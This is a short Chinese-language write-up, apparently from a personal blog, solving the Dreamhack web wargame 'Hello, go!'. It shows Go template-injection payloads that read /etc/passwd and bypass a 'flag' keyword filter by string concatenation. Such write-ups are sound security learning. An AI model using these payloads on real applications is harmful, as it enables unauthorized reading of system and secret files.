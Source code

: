 ```yaml
---
title: Hello, go!
published: 2025-07-25
description: "Dreamhack"
image: ""
tags: ["CTF Writeup", "Dreamhack", "Web"]
category: "Dreamhack"
draft: false
---
```


# Hello, go!

[題目連結](https://dreamhack.io/wargame/challenges/1999)

先確認一下有沒有模板注入

```txt
/?name={{.}}
```

查了一下關於 go 的 ssti

[Exploring ways to exploit SSTI in Go Frameworks](https://payatu.com/blog/ssti-in-golang/)

在上面看到用 echo 的方式讀取 `/etc/passwd` 的內容

```txt
/?name={{ .File "/etc/passwd" }}
```

成功讀到 `/etc/passwd`

![echo passwd](/assets/dreamhack/Hello_go/image.png)

因為原始碼裡面有 name 不能包含 `flag` 的字串，所以試試用拼接的方式

```txt
/?name={{.File (print "/" "f" "l" "ag")}}
```

成功讀到 flag

![flag](/assets/dreamhack/Hello_go/image-1.png)

![end](/assets/dreamhack/Hello_go/image-2.png)
